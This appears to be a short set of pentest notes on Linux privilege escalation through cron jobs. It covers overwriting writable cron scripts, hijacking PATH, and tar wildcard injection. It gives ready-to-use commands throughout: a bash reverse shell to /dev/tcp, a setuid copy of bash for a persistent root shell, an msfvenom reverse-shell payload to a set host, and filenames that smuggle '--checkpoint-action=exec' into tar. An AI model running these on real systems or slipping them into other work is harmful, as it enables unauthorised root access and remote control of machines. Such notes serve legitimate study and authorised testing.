 You can replace to contents of a script that is running with a payload

View crontab contents: `cat /etc/crontab`

### File permissions

Replace executable file contents with this if it's writable: `#!/bin/bash` 
`bash -i >& /dev/tcp/[ip address]/[port number] 0>&1`
Than start a netcat listener and wait

### PATH variable

1. View what the path starts with in the crontab file
2. Create a file with the same name of executable file cron is running in this location with this script: `#!/bin/bash`  
`cp /bin/bash /tmp/rootbash`  
`chmod +xs /tmp/rootbash`
3. Run the file to get a persistent root shell: `/tmp/rootbash -p`

### Wildcards

#### tar

1. Generate a payload in your machine and get it to the target system: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`
2. Create those 2 files, tar will run those as valid commends and the file will be executed commands: `touch /home/user/--checkpoint=1`
`touch /home/user/--checkpoint-action=exec=shell.elf`
3. Start a netcat listener